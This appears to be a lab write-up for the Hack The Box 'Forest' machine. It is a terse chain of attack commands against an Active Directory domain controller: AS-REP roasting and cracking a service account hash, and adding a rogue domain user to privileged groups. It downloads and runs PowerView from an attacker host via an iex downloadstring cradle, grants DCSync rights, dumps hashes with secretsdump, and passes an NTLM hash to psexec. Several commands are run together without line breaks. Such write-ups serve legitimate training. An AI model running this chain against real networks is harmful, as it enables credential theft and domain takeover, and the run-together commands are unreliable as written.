


fping 10.129.95.210echo "10.129.132.20 forest.htb" | sudo tee -a /etc/hostsUse threader3000 for faster insight and to determine useful ports for nmap targeting. Then you can use those results to run a targeted nmap scan.
ldapsearch -h forest.htb -p 389 -x -b "dc=htb,dc=local"/opt/windapsearch/windapsearch.py -d htb.local --dc-ip forest.htb -U
/opt/windapsearch/windapsearch.py -d htb.local --dc-ip forest.htb --custom "objectClass=*"objectClass=* grabs all domain objects.
Research shows that svc-alfresco does not require Kerberos pre-authentication. This means we can perform an AS-REP roast.
Target: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/svc-alfresco -dc-ip forest.htb -no-passjohn hash --fork=4 -w=/usr/share/wordlists/rockyou.txtruby /var/lib/gems/2.7.0/gems/evil-winrm-3.3/lib/evil-winrm.rb -i forest.htb -u svc-alfresco -p s3rviceInstead of bringing over and running SharpHound.exe on the target, we can use BloodHound.py to run from our machine.
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.129.133.36BloodHound.py is a Python-based ingestor using Impacket. Import results directly into the BloodHound GUI.
sudo neo4j consoleLogin: neo4j:neo4j (Default credentials for neo4j)
Start the BloodHound app and drag and drop the results into the GUI.
Create a new user and assign DCSync rights:
net user ktt abc123! /add /domain
net group "Exchange Windows Permissions" ktt /add
net localgroup "Remote Management Users" ktt /addcp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .
pip3 install updog
updog -p 8080iex(new-object net.webclient).downloadstring("http://10.10.14.91:8080/PowerView.ps1")$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\ktt', $pass)
Add-ObjectACL -PrincipalIdentity ktt -Credential $cred -Rights DCSync/usr/share/doc/python3-impacket/examples/secretsdump.py htb/[email protected]/usr/share/doc/python3-impacket/examples/psexec.py [email protected] -hashes \
aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6